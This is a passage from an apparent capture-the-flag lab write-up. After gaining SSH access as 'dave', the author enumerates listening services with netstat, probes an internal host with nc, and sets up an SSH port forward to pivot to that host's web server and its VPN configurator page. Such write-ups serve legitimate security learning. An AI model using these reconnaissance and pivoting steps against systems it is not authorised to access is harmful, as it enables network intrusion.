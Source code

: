 ```bash
dave@ubuntu:~/.gnupg$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:5902          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -               
tcp        0    352 10.10.10.109:22         10.10.14.27:40374       ESTABLISHED -               
tcp        0      0 10.10.10.109:48876      10.10.14.27:443         ESTABLISHED -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 10.10.10.109:80         10.10.14.27:34142       ESTABLISHED -               
```
The DNS config machine does respond from here also on port 80 and ssh at least.
```bash
dave@ubuntu:~/.gnupg$ nc -nv 192.168.122.4 -z 22 80
Connection to 192.168.122.4 22 port [tcp/*] succeeded!
Connection to 192.168.122.4 80 port [tcp/*] succeeded!
```
Should be simple enough to forward that webserver back to our attacker box and check out whatever is running. We do a ```ssh dave@10.10.10.109 -L 80:192.168.122.4:80``` which just reverse forwards port 80 back to our machine then we can browse to it locally.

![](pics/dnsserver.JPG)

We click to modify DNS settings and its a dead broken link. If we try the other VPN option though, we get to a VPN configurator page that lets us update a .ovpn file then test it. 
